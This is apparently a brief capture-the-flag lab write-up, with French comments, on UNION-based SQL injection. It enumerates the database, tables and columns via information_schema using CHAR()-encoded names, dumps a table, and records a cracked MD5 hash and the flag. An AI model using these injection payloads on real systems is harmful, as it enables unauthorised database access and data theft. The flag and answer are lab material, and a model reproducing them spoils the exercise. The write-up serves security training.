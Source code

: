     1 UNION SELECT 1, 2
    1 UNION SELECT 1, database()
        Cela affiche: Member_images

    1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115)
       Cela affiche: list_images

    1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,105,109,97,103,101,115) AND TABLE_NAME = CHAR(108,105,115,116,95,105,109,97,103,101,115)
       Cela affiche: id, url, title, comment

	1 UNION SELECT 1, url FROM list_images
	1 UNION SELECT 1, title FROM list_images

	md5:1928e8083cf461a51303633093573c46
	1928e8083cf461a51303633093573c46 : albatroz
	flag:f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

